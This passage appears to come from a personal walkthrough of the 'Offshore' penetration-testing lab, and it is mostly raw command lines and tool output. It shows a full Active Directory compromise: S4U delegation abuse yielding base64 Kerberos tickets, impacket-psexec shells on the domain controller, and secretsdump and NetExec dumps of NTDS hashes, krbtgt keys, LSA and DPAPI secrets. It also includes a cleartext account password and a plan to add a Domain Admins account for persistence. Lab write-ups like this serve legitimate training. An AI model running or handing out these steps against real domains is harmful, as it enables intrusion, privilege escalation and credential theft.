Rldi5BRE1JTi5PRkZTSE9SRS5DT00=


[*] Action: S4U

[*] Building S4U2self request for: 'YOVECIO$@DEV.ADMIN.OFFSHORE.COM'
[*] Using domain controller: DC02.dev.ADMIN.OFFSHORE.COM (172.16.2.6)
[*] Sending S4U2self request to 172.16.2.6:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'YOVECIO$@DEV.ADMIN.OFFSHORE.COM'
[*] base64(ticket.kirbi):

      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

[*] Impersonating user 'Administrator' to target SPN 'cifs/DC02.DEV.ADMIN.OFFSHORE.COM'
[*] Building S4U2proxy request for service: 'cifs/DC02.DEV.ADMIN.OFFSHORE.COM'
[*] Using domain controller: DC02.dev.ADMIN.OFFSHORE.COM (172.16.2.6)
[*] Sending S4U2proxy request to domain controller 172.16.2.6:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/DC02.DEV.ADMIN.OFFSHORE.COM':

      doIG/jCCBvqgAwIBBaEDAgEWooIF7TCCBelhggXlMIIF4aADAgEFoRgbFkRFVi5BRE1JTi5PRkZTSE9SRS5DT02iLjAsoAMCAQKhJTAjGwRjaWZzGxtEQzAyLkRFVi5BRE1JTi5PRkZTSE9SRS5DT02jggWOMIIFiqADAgESoQMCARGiggV8BIIFeNdsXRM8xjwOaPqDraV8xSybzW3JnXBgSCaNzLGpaat+XVpUgxTe2W9FXbKgi2GLOs3NZNFMdeakwgOeKEAafxYpfMr6NeIB+JqDR6j4hPPKsNubcCzMplPmHf3+KmhsmSYnUyA73b8aVMNSA9xzbbOSWu1m8Q6Ipar62XT0mhvc8mlUlVedgJb4g/VCKR1e6PeaHG68qpmiKV2YklvUSbE8D1TClibPKMJRrl9nHWllcMBvUJBRuxgLn55GAe/iw3eo9iKKH5fOKfptZqLpwb9qtanzJjupEDnB276Os3MQyOylu0b3AEsbXZfjkl+P9JQfgYgqqhuD6bnQhbIhPzdmSoeK5th0JkEDkAwiILSRs+Y2Akq9bUl7qkhtP92jbcfTOoYDF7znDWRD4UlrHwWKkXKwEGwQNp8VU2dcqahy9XJzM2tpSs6bN97Zz61SasQvum/I0AyEapRQ+ZYfDZUKWy7FLi6KX/vUWc6FfyhBCqq8i6Tf6T66FRg9CCACB3g7VjKEMAPGEbpsTzKB00wiIpmOUwi1m8uq+XFaJy6Y+fUuI21b/mlfLmEZT+hAeEtAjhDjsCtj8rZmEPPaOyYJc9iRn8rGMQz73P4WN0syyUGcTfJ8hvrTOV+C9Xe/1BkyR5Tq4r1RGi3qE8w6ru/aZ073i13VmU8/tiWBTlxYUD1FC+sUUKyw7/Uxb6RcXLrldlgLpDnuoF8qq0uWCzg8WVYr0eUD0RHERnYmDqJq6NvDHwSGM7FEPDIjbaEChL6RHo7ocGzuxvcz7/FkM40ryoDqVbbNIQwuiJ49U+hTvzg7YtIGpXotlN8LJ5TfmBlFLUQW74wnJbcifghvJq3R0UJDM3+JHs130u7feUe+3epW2mQH1GSZoM//rc3lqm5Cmv1m9IdzKEOzznp5DtMpr48wLF8YZd7IpOQp7v6nG5CTf7mK8s10QavhXB7ELUcVyQbcC9AmK2d8qmlJFjUz5KvZG8kfzJOVOSk0jFSmG5Nbh9arQV7XRlvJ/PBEBO436qe0IJydkxL9LDc1MPN7Zh66pqWbYZ6zKqnGVD1HhR4FwKirZtdFWaCW4zmw6xCXXnqS2P7Jm3HKLoAOfke5/kcs3JgmZ6wOA9OLQA+9U90Js4bJh79q6ZY+OUStT2DIqnZLKgEYOtOTY4FkK5tGvCZi5prY+vAUIi9qu6pCdoj7dPu5lxTNAqf/qGK5T+hzhy5BcSv2MvoFAsaOlV9hrGn7agnqT7kSgVbSbH/8G5TdEoVjCHUeMdJhwZcn5pIn/2twcq3wY1ufwrHQ58bfZIfNa8HWjE+Q9BeELN0M+wQZXsrdYr1rvcoIfffcMotszDMPk9Kf1FnYFUSDFjt3r+LYIv4ujlmNFkCpupCWyb3BeCUwyLq+SdWw9mSA96yTQgNCOZIIfUPXV9qxKyfiUU0veE+3brMozvZKlJW6h8PkLGa5rV1NpOMfqFo+5+uTZQnyeeBmakhMxokBekppRAc5Pu8CmCW/pGtCH8911pdYMxKvNzOFSvEcgWVp+q9bq3z+gjIc1qiF+5/nfkNnnA1KljSLxuv9hsKMkm3QJ2IA5/Pxpw15uviU293zeBpYG6Tv5UQJGsGUFbMCTSfMVAyAbws5vIWesllB2RKaFxPfw7BUx7xpAQ6nQi5PgW0BgI6pH7j8+uA91GnOF9av/rc79ypDPDqRKfSae4dLGaxD9hMvTSGCXC0akV02flQhEjOaQiOL8tggK5Y2HZoL4jhjbUJQCQr4wQBAAJl5Ewe5Kc0na0WxtgOvccu5oXbwFyJMQWCHX5xApyxhW3DpZnpbpPEjMqeHBJXc+5r4IOQFiGOGEfkfHycWGoS/upWSSHLxzIWpo4H8MIH5oAMCAQCigfEEge59geswgeiggeUwgeIwgd+gGzAZoAMCARGhEgQQ3rgpAZSJ8Tkj4BooxV/ouKEYGxZERVYuQURNSU4uT0ZGU0hPUkUuQ09NohowGKADAgEKoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQKUAAKURGA8yMDI0MDcwNDA5NTgwOVqmERgPMjAyNDA3MDQxOTU4MDdapxEYDzIwMjQwNzExMDk1ODA3WqgYGxZERVYuQURNSU4uT0ZGU0hPUkUuQ09NqS4wLKADAgECoSUwIxsEY2lmcxsbREMwMi5ERVYuQURNSU4uT0ZGU0hPUkUuQ09N
[+] Ticket successfully imported!
```

And we can use it to gain access as you see:

```
:\Temp> dir \\dc02\c$
 Volume in drive \\dc02\c$ has no label.
 Volume Serial Number is 7804-A0AC

 Directory of \\dc02\c$

02/03/2020  12:34 PM    <DIR>          PerfLogs
04/20/2022  08:57 AM    <DIR>          Program Files
02/03/2020  12:03 PM    <DIR>          Program Files (x86)
07/16/2018  11:22 PM    <DIR>          Users
04/20/2022  03:06 PM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  23,489,388,544 bytes free

C:\Temp>
```

Now I can either do same and request `/altspn: HTTP` that can be used with powershell remote or try to export and convert to ccache so i can login from windows instead.

Let's convert it back:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# cat Administrator.b64 | base64 -d > Administrator.kirbi
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# ticketConverter.py Administrator.kirbi Administrator.ccache
Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

[*] converting kirbi to ccache...
[+] done
```



And now moment of thruth:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# impacket-psexec DEV.ADMIN.OFFSHORE.COM/Administrator@DC02.DEV.ADMIN.OFFSHORE.COM -k -no-pass
Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

[*] Requesting shares on DC02.DEV.ADMIN.OFFSHORE.COM.....
[*] Found writable share ADMIN$
[*] Uploading file PhVTIyDS.exe
[*] Opening SVCManager on DC02.DEV.ADMIN.OFFSHORE.COM.....
[*] Creating service UBrp on DC02.DEV.ADMIN.OFFSHORE.COM.....
[*] Starting service UBrp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Nice we have access baby! I noticed that the issue might be that i was using the `@IP` and not the `@FQDN` to connect? I will add immediately a new AD account to the "Domain admins" so I have sort of persistence.



&nbsp;

# Post Exploitaition

Now I can use the same ticket to dump the hashes from AD:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# impacket-secretsdump -k -no-pass DEV.ADMIN.OFFSHORE.COM/ADMINISTRATOR@DC02.DEV.ADMIN.OFFSHORE.COM
Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x50f374409c9699fe7dd5fe709ac21830
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
DEV\DC02$:plain_password_hex:bf067ab50585abf0bf47083da4c3465073bcfa91e8f82b0718ab513c1f991deeb0ee3c0a5e343b74377c8f5e865e148262837be9bfc9ed00e2f990ff9842a882a1ab2cf2ce7be4acc4fccae3602dea56cab8d3508ea85babd59eb76fb6f560b002412e4f57cd7868ee9f2b3445730636bd8bbd21f5b1813790b5d5444ee445563557d6533a1a427e14c19f3a0cf2f2ba3486eca1e1b22f7a79b3cf93c5b5db8cc43b0859213d2ea8c3b06e605c8fcd3813eb8528f33201599519e24b003c09648ce0776cd80221358c50b17f066dfe14e311e6015dc849e67be08e9025c7c9c45c76b04c7060877a5f55d7c05e123525
DEV\DC02$:aad3b435b51404eeaad3b435b51404ee:1a1d4bd303de23a5ca0e13cda66be2e3:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x269272727fe809660f56725fbbbdf7bd1b9660fd
dpapi_userkey:0x7abe3a257e803f41d14919c09631edaf8477fbdc
[*] NL$KM 
 0000   3D 3D E8 3C D1 46 2B 26  15 28 5F D7 F6 60 C4 2C   ==.<.F+&.(_..`.,
 0010   FC 31 A1 08 82 BD 8F 1B  C8 59 44 5C 20 DC AC 54   .1.......YD\ ..T
 0020   54 DE 73 3A 14 1A 39 D3  9D 19 3D 83 1C E6 41 3D   T.s:..9...=...A=
 0030   2E B9 01 9F 68 75 53 A3  C5 75 B4 AC 54 8E 85 3A   ....huS..u..T..:
NL$KM:3d3de83cd1462b2615285fd7f660c42cfc31a10882bd8f1bc859445c20dcac5454de733a141a39d39d193d831ce6413d2eb9019f687553a3c575b4ac548e853a
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c61f43b6a4db2676714713836b7d2ea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9404def404bc198fd9830a3483869e78:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IIS_dev:1105:aad3b435b51404eeaad3b435b51404ee:ce18f9730484ed029749730e2f82b147:::
joe:1604:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
yovecio:11602:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::
DC02$:1000:aad3b435b51404eeaad3b435b51404ee:1a1d4bd303de23a5ca0e13cda66be2e3:::
WS03$:1104:aad3b435b51404eeaad3b435b51404ee:5cf7b4d94646e8efba50f45b88c12608:::
YOVECIO$:11601:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::
ADMIN$:1103:aad3b435b51404eeaad3b435b51404ee:50ac3f1204a3b09f37b1e390fed121a4:::
CORP$:1109:aad3b435b51404eeaad3b435b51404ee:8cd061affef72162324a64485678437a:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:acac0da333c53ea3ba7e52ad989681d999738cfeea20c66a0e893939ddc477de
Administrator:aes128-cts-hmac-sha1-96:8178a5d200fc12ebffbea1342c92b4b0
Administrator:des-cbc-md5:13d0b99e80e620b0
krbtgt:aes256-cts-hmac-sha1-96:ff860b4fd2c2f5564510b6859a5a48bfe946f8bec8b09513ad34143e30a11fd7
krbtgt:aes128-cts-hmac-sha1-96:09788e9595e400892b1b0adbb3fb998b
krbtgt:des-cbc-md5:b3468c028fa8f434
IIS_dev:aes256-cts-hmac-sha1-96:722a36b24dfbfad20cbff913305f50d536cb5d617888f58171266465985efb37
IIS_dev:aes128-cts-hmac-sha1-96:d3f73a9874b8c75bce567b572829a57d
IIS_dev:des-cbc-md5:61c8cb0e49d35880
yovecio:aes256-cts-hmac-sha1-96:7194afe6a57dea0147c6d5be10b1f07c215c5884974adb54865790b6aae421c7
yovecio:aes128-cts-hmac-sha1-96:070eaa17cbd26029b8fe588c7e88cca1
yovecio:des-cbc-md5:d59b3e9b3bce2345
DC02$:aes256-cts-hmac-sha1-96:85364731c3d220cbb5bfd300d1873cc882c855cb0580293e58cf73539f537330
DC02$:aes128-cts-hmac-sha1-96:a031093f541ee8d6a98c1fa0ba607f87
DC02$:des-cbc-md5:ce0be0203d2a857a
WS03$:aes256-cts-hmac-sha1-96:a7e288fd80acc06a436011dbca3b68494e2a6b31007b1b2a77a125b7b3b2fad3
WS03$:aes128-cts-hmac-sha1-96:847e0f85d48f9fe5d413d1091c532c57
WS03$:des-cbc-md5:c1860e4f0ec70710
YOVECIO$:aes256-cts-hmac-sha1-96:4dd510f0b9476d0ce20741a3406ecfa569fe509b1aa7d627a6d1dbbebccf8022
YOVECIO$:aes128-cts-hmac-sha1-96:3146c150b6f8d5268ce4039b0dbc5c3d
YOVECIO$:des-cbc-md5:f149671a6201b03b
ADMIN$:aes256-cts-hmac-sha1-96:7828f7573435394ca65cf5b91f97a0601fe076730bbbf2f2b080cc4b58aef502
ADMIN$:aes128-cts-hmac-sha1-96:36a5616a1f35fd21cfff29a3e612f427
ADMIN$:des-cbc-md5:6d8fc2c2409db325
CORP$:aes256-cts-hmac-sha1-96:a776f391c30f047380fd6b82c6caffb80c39a61b75d7a1a514bf3fb7f16fba60
CORP$:aes128-cts-hmac-sha1-96:c290e21bcc0bdf7294d558c43438c61d
CORP$:des-cbc-md5:f8df386e9bb3b5ea
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

And I can try to dump the LSASS.exe secrets but no cleartext credentials so far:

```
└─# NetExec smb 172.16.2.6 -u Administrator -H c61f43b6a4db2676714713836b7d2ea6 --lsa                
SMB         172.16.2.6      445    DC02             [*] Windows Server 2016 Standard 14393 x64 (name:DC02) (domain:dev.ADMIN.OFFSHORE.COM) (signing:True) (SMBv1:True)
SMB         172.16.2.6      445    DC02             [+] dev.ADMIN.OFFSHORE.COM\Administrator:c61f43b6a4db2676714713836b7d2ea6 (Pwn3d!)
SMB         172.16.2.6      445    DC02             [+] Dumping LSA secrets
SMB         172.16.2.6      445    DC02             DEV\DC02$:aes256-cts-hmac-sha1-96:85364731c3d220cbb5bfd300d1873cc882c855cb0580293e58cf73539f537330
SMB         172.16.2.6      445    DC02             DEV\DC02$:aes128-cts-hmac-sha1-96:a031093f541ee8d6a98c1fa0ba607f87
SMB         172.16.2.6      445    DC02             DEV\DC02$:des-cbc-md5:2a80c8dcdc150dfb
SMB         172.16.2.6      445    DC02             DEV\DC02$:plain_password_hex:bf067ab50585abf0bf47083da4c3465073bcfa91e8f82b0718ab513c1f991deeb0ee3c0a5e343b74377c8f5e865e148262837be9bfc9ed00e2f990ff9842a882a1ab2cf2ce7be4acc4fccae3602dea56cab8d3508ea85babd59eb76fb6f560b002412e4f57cd7868ee9f2b3445730636bd8bbd21f5b1813790b5d5444ee445563557d6533a1a427e14c19f3a0cf2f2ba3486eca1e1b22f7a79b3cf93c5b5db8cc43b0859213d2ea8c3b06e605c8fcd3813eb8528f33201599519e24b003c09648ce0776cd80221358c50b17f066dfe14e311e6015dc849e67be08e9025c7c9c45c76b04c7060877a5f55d7c05e123525
SMB         172.16.2.6      445    DC02             DEV\DC02$:aad3b435b51404eeaad3b435b51404ee:1a1d4bd303de23a5ca0e13cda66be2e3:::
SMB         172.16.2.6      445    DC02             dpapi_machinekey:0x269272727fe809660f56725fbbbdf7bd1b9660fd
dpapi_userkey:0x7abe3a257e803f41d14919c09631edaf8477fbdc
SMB         172.16.2.6      445    DC02             NL$KM:3d3de83cd1462b2615285fd7f660c42cfc31a10882bd8f1bc859445c20dcac5454de733a141a39d39d193d831ce6413d2eb9019f687553a3c575b4ac548e853a
SMB         172.16.2.6      445    DC02             [+] Dumped 7 LSA secrets to /root/.nxc/logs/DC02_172.16.2.6_2024-07-04_122256.secrets and /root/.nxc/logs/DC02_172.16.2.6_2024-07-04_122256.cached
```

Doing same on DPAPI secrets gave back exactly nothing:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# NetExec smb 172.16.2.6 -u Administrator -H c61f43b6a4db2676714713836b7d2ea6 --dpapi
SMB         172.16.2.6      445    DC02             [*] Windows Server 2016 Standard 14393 x64 (name:DC02) (domain:dev.ADMIN.OFFSHORE.COM) (signing:True) (SMBv1:True)
SMB         172.16.2.6      445    DC02             [+] dev.ADMIN.OFFSHORE.COM\Administrator:c61f43b6a4db2676714713836b7d2ea6 (Pwn3d!)
SMB         172.16.2.6      445    DC02             [+] User is Domain Administrator, exporting domain backupkey...
SMB         172.16.2.6      445    DC02             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         172.16.2.6      445    DC02             [+] Got 26 decrypted masterkeys. Looting secrets...
SMB         172.16.2.6      445    DC02             [-] No secrets found
```

And now we can login to get another flag:

```
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat flag.txt
OFFSHORE{l@zy_adm1ns_ru1n_th3_p4rty}
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

Now trying to login I see an issue?



I wonder if I need to be in this group as well?



But I am having some issues to connect to this damn DC after powerview update so i will skip this part as Win-RM works too. But I will check again for trusts and I see another trust domain:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# NetExec ldap 172.16.2.6 -u Administrator -H c61f43b6a4db2676714713836b7d2ea6 -M enum_trusts
SMB         172.16.2.6      445    DC02             [*] Windows Server 2016 Standard 14393 x64 (name:DC02) (domain:dev.ADMIN.OFFSHORE.COM) (signing:True) (SMBv1:True)
LDAP        172.16.2.6      389    DC02             [+] dev.ADMIN.OFFSHORE.COM\Administrator:c61f43b6a4db2676714713836b7d2ea6 (Pwn3d!)
ENUM_TRUSTS 172.16.2.6      389    DC02             [+] Found the following trust relationships:
ENUM_TRUSTS 172.16.2.6      389    DC02             ADMIN.OFFSHORE.COM -> Bidirectional -> Within Forest
ENUM_TRUSTS 172.16.2.6      389    DC02             corp.local -> Bidirectional -> Quarantined Domain
```

We can see it is on the subnet `172.16.3.0/24`.

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> ping ADMIN.OFFSHORE.COM

Pinging ADMIN.OFFSHORE.COM [172.16.3.5] with 32 bytes of data:
Reply from 172.16.3.5: bytes=32 time<1ms TTL=127
Reply from 172.16.3.5: bytes=32 time=1ms TTL=127
Reply from 172.16.3.5: bytes=32 time<1ms TTL=127
Reply from 172.16.3.5: bytes=32 time=1ms TTL=127

Ping statistics for 172.16.3.5:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
```

&nbsp;I will move on to the MNGTM-01 machine.

# Off-topic

I tried again to get a TGS via the Linux path and it worked, basically as i guessed I was using the IP and not the FQDN. See the proof here:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# getST.py -spn 'cifs/DC02.DEV.ADMIN.OFFSHORE.COM' -dc-ip 172.16.2.6 -impersonate 'Administrator' 'DEV.ADMIN.OFFSHORE.COM/YOVECIO$:Coglione1!'

Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_DC02.DEV.ADMIN.OFFSHORE.COM@DEV.ADMIN.OFFSHORE.COM.ccache
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# export KRB5CCNAME=/home/millycash/Downloads/OffShore/dev.admin.offshore.com/Administrator@cifs_DC02.DEV.ADMIN.OFFSHORE.COM@DEV.ADMIN.OFFSHORE.COM.ccache 
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# klist
Ticket cache: FILE:/home/millycash/Downloads/OffShore/dev.admin.offshore.com/Administrator@cifs_DC02.DEV.ADMIN.OFFSHORE.COM@DEV.ADMIN.OFFSHORE.COM.ccache
Default principal: Administrator@DEV.ADMIN.OFFSHORE.COM

Valid starting     Expires            Service principal
07/04/24 12:11:22  07/04/24 22:11:22  cifs/DC02.DEV.ADMIN.OFFSHORE.COM@DEV.ADMIN.OFFSHORE.COM
    renew until 07/05/24 12:11:19
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# impacket-psexec DEV.ADMIN.OFFSHORE.COM/Administrator@DC02.DEV.ADMIN.OFFSHORE.COM -k -no-pass                                                 
Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

[*] Requesting shares on DC02.DEV.ADMIN.OFFSHORE.COM.....
[*] Found writable share ADMIN$
[*] Uploading file VmCphfUT.exe
[*] Opening SVCManager on DC02.DEV.ADMIN.OFFSHORE.COM.....
[*] Creating service TCKs on DC02.DEV.ADMIN.OFFSHORE.COM.....
[*] Starting service TCKs.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

&nbsp;

&nbsp;

&nbsp;